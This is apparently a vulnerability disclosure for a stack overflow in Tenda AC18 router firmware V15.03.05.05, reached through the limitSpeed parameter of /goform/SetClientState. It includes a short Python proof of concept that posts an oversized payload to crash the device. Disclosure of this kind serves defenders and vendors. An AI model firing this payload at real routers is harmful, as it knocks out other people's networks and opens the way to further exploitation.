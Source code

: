 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v11` variable receives the `limitSpeed` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided  `v11` can trigger this security vulnerability.

![image-20240306000228236](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306000228236.png)

![image-20240305223452318](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223452318.png)

![image-20240305223505596](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223505596.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000


data = {'limitEn':1,"limitSpeed": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305223317174](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223317174.png)
